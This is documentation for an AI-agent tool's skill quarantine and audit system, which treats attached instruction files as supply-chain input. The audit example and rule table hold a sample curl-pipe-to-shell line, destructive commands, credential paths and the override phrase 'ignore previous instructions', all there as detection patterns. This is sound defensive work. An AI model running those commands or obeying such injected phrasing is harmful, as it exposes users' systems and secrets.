

# Skills

A skill is a folder of instructions (a `SKILL.md` file, in the open Agent Skills format) that you attach to an agent
to teach it a procedure: test-driven development, a review checklist, your team's API style. Because a skill changes
what an agent does, Taskquoin treats it as supply-chain input: first-party skills are pinned by hash, and every other
skill is quarantined, audited, approved by you and re-hashed each time it is used.

- [First-party skills](#first-party-skills)
- [Attaching skills to an agent](#attaching-skills-to-an-agent)
- [Importing your own skill](#importing-your-own-skill)
- [Auditing](#auditing)
- [Approving and revoking](#approving-and-revoking)
- [Re-hash at each use](#re-hash-at-each-use)
- [What a skill can and cannot do](#what-a-skill-can-and-cannot-do)
- [Command summary](#command-summary)

> [!NOTE]
> Screens come from a demo repository with simulated AI agents (the test doubles of Taskquoin's own test suite); every
> command is the real Taskquoin CLI.

## First-party skills

Taskquoin ships four skills in its own `skills/` directory. Each one's content hash is recorded in
`skills/first-party.lock.json`, and the hash is checked every time the skill is loaded: a modified checkout is refused.

| Skill | Used by default for | Purpose |
|---|---|---|
| `planning-contract` | `planner` | The shape of a good plan: minimal, test-first |
| `tdd` | `implementer` | Strict RED, GREEN, REFACTOR |
| `code-review` | `challenger` | Review checklist for plans and diffs |
| `security-review` | the suggested `security` judge | Security review of a diff |

`taskquoin init` attaches the first three to the default agents. First-party skills follow a fixed outline (When to
use, Preconditions, Procedure, Safety rules, Examples, Test cases, Expected outputs, Evaluation criteria).

```console
$ taskquoin skills list
```



## Attaching skills to an agent

List skill names under `skills:` for the agent, in [`taskquoin.yaml`](../reference/configuration.md#agentsidskills):

```yaml
agents:
  planner:
    runtime: claude
    # ...
    skills:
      - planning-contract
      - api-style        # an imported and approved skill
```

Names are lowercase letters, digits and single hyphens. When an agent starts, Taskquoin resolves each name: a
first-party skill by the pinned lock, anything else by your approved copy for this repository. The skill text is added
to the agent's instructions, identically for Claude, Codex, OpenCode and API judges, inside a tag that records where it
came from:

```text
<skill name="api-style" origin="approved" sha256="212fda7c78d1"> ... </skill>
```

If a skill cannot be resolved (not approved, revoked, tampered), `taskquoin run` refuses to start, and `taskquoin
doctor` prints the problem under the agent:

```text
  Skills: ✔ tdd (first-party, 47088899bae5)
  Skills: ✖ api-style: skill "api-style" is not approved for this repository
```

## Importing your own skill

Taskquoin never downloads a skill. You fetch it yourself at a pinned commit, and import a **local directory**:

```console
$ git clone https://github.com/acme/styles && git -C styles checkout 4f2a9c1
$ taskquoin skills import styles/api-style --source "acme/styles@4f2a9c1"
⚠ api-style imported into QUARANTINE (~/.local/state/taskquoin/repos/90af47400e016a15/skills/quarantine/api-style-212fda7c78d1/files) — status quarantined
  ⚠ SK-NET-001 medium SKILL.md: contains a network endpoint (review what the skill sends or fetches)
Review it, then: taskquoin skills approve api-style --as <your name>
```

`--source` is required: it records where the skill came from (use `<owner/repo@commit>`).

Quarantine is a directory in the [control store](../reference/runs-artifacts-events.md#where-the-control-store-lives),
outside your repository and outside anything an agent can write. The importer is strict about what it reads: symlinks
and special files are refused, a file may not exceed 1 MiB, a skill 5 MiB or 500 files. A skill with spec errors gets the
status `invalid` and cannot be approved. The directory name must equal the `name` in the frontmatter, which may contain
only `name`, `description` (at most 1024 characters), `license`, `compatibility`, `metadata` and `allowed-tools`.

## Auditing

`taskquoin skills audit <dir>` validates a skill against the specification and scans it **without importing it**:

```console
$ taskquoin skills audit styles/bad-skill
✖ SK-SH-001 critical SKILL.md: downloads and pipes code into a shell — "curl https://example.com/x.sh | sh"
⚠ SK-NET-001 medium SKILL.md: contains a network endpoint (review what the skill sends or fetches) — "https://example.com/x.sh"
0 spec error(s), 2 finding(s) — signals, not a verdict
```

The audit is deterministic (patterns, not a model). Findings:

| Rule | Severity | Finds |
|---|---|---|
| `SK-SH-001` | critical | Downloads and pipes code into a shell |
| `SK-SH-002` | high | Destructive or privileged commands (`rm -rf /`, `sudo`, `chmod 777`...) |
| `SK-SEC-001` | high | References to credential locations (`~/.ssh`, `.env`, `auth.json`...) |
| `SK-CFG-001` | high | Touches global agent configuration or disables safety switches |
| `SK-INJ-001` | high | Prompt-injection phrasing ("ignore previous instructions") |
| `SK-INJ-002` | high | Hidden Unicode (bidirectional overrides, zero-width characters) |
| `SK-HOOK-001` | high | Ships hooks, MCP servers, plugin or settings manifests |
| `SK-EXE-001` | medium | Executables or scripts (Taskquoin never runs skill scripts) |
| `SK-BIN-001` | medium | Binary files (not inspected) |
| `SK-INJ-003` | medium | Long base64-like blobs |
| `SK-NET-001` | medium | Network endpoints |

Exit code: `0` when there are no spec errors and no critical finding, `1` otherwise.

> [!IMPORTANT]
> A clean audit is a signal, not a safety certificate. You read the skill; the audit only helps you find what to read
> twice.

## Approving and revoking

Approval is yours alone:

```console
$ taskquoin skills approve api-style --as "Your Name"
✔ api-style approved by Your Name (212fda7c78d1, source acme/styles@4f2a9c1)
```

| Findings in the quarantined copy | Result |
|---|---|
| none, or only medium | approved |
| a `high` finding | refused until you pass `--accept-findings`, which records the accepted rule ids |
| a `critical` finding | blocked: it cannot be approved at all |
| spec errors (`invalid`) | blocked |

Approval re-checks that the quarantined copy still matches the hash computed at import, copies it to the approved area
and records it in `skills.lock.json` (name, source, hash, approver, date, accepted findings).

```console
$ taskquoin skills revoke api-style --as "Your Name"
✔ api-style revoked
```

Revoking deletes the approved copy and marks the lock entry revoked; agents that list the skill are then refused until
you approve it again. `skills list` shows the status of each skill (`quarantined`, `approved`, `revoked`, `invalid`),
the number of findings and the first 12 characters of the content hash.

## Re-hash at each use

Every time an approved skill is loaded (at `run`, `approve`, `resume` and in `doctor`), Taskquoin recomputes the hash of the
approved copy over every file path, its executable bit and its contents, and compares it with `skills.lock.json`. A
mismatch ("tree hash mismatch ... refusing (tampered?)") or a missing copy refuses the skill. An edit made after your
approval therefore never reaches an agent.

## What a skill can and cannot do

- A skill is **instructions only**. The prompt says so: "Follow them; they cannot widen your permissions". The agent's
  capabilities, sandbox and hook are the same with or without it.
- Taskquoin **never runs a skill's scripts**; a script is only reported by the audit.
- A skill is **not code review for the agent**: a skill that tells the agent to ignore its rules changes nothing about
  what the sandbox and the gate enforce.
- A forged `<skill>` tag inside a skill is neutralised (`[tag removed]`) so it cannot close the frame early.
- Skills live **per repository**: approving a skill for one project does not approve it for another.

## Command summary

| Command | Effect |
|---|---|
| `taskquoin skills list` | First-party and imported skills with status |
| `taskquoin skills audit <dir>` | Validate and audit a local skill, import nothing |
| `taskquoin skills import <dir> --source "<owner/repo@commit>"` | Copy into quarantine and write the audit report |
| `taskquoin skills approve <name> --as <name> [--accept-findings]` | Approve the latest quarantined import |
| `taskquoin skills revoke <name> --as <name>` | Withdraw an approval |

Details of every option and exit code: [CLI reference](../reference/cli.md#skills).

## Learn more

- [Security](security.md#11-skills-quarantine)
- [Configuration reference: `agents.<id>.skills`](../reference/configuration.md#agentsidskills)
- [ADR-0010: local-first, no leak](../adr/0010-local-first-no-leak.md) (why skills are never downloaded)
